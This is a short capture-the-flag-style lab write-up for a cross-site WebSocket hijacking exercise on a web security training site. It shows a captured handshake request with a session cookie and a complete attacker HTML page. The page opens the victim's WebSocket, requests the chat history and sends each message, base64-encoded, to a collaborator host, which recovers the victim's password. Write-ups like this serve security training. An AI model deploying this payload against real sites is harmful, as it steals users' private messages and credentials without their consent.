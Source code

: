 # Cross-site WebSocket hijacking
Solution:
- Web application makes request for WebSocket Handshake
```html
GET /chat HTTP/1.1
Host: ac2a1ffd1fd68b0fc063bcf8008c00f5.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: https://ac2a1ffd1fd68b0fc063bcf8008c00f5.web-security-academy.net
Sec-WebSocket-Key: UDST+kjCMBw8abEJNzZ1Yw==
Connection: keep-alive, Upgrade
Cookie: session=bfGE5InbNpJERBUXcLQlGiCjU9rIcDHR
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

```
- The request does not include any form of CSRF protection such as random tokens.
- This can be abused by malicious webapps to initiate actions (create a websocket connection) on behalf of the victim.
- After the connection is being made, the client sends a READY messages to inform the server that it is ready to communicate. The server then sends all the past chat to the client up to this point.
- If we can make the victim send the ready message, we will receive the chat history.
- Send the following page to the victim:
```html
<html>
<head><title>Just a title</title></head>
<body>
	<h1>Hello Worlds</h1>
	<script type="text/javascript">
		var ws = new WebSocket("wss://ac391fb21ee5cd7ac0840a8000f7001a.web-security-academy.net/chat");
		ws.onopen = function (event) {
			ws.send("READY");
		}
		ws.onmessage = function (event) {
			url = "http://<burp-collaborator-link>/?msg=" + btoa(event.data);
			
			xhr = new XMLHttpRequest();
			xhr.open("GET",url, true);
			xhr.send(null);
		}
	</script>
</body>
</html>
```
- In the Collaborator server, you'll receive the message containing the password
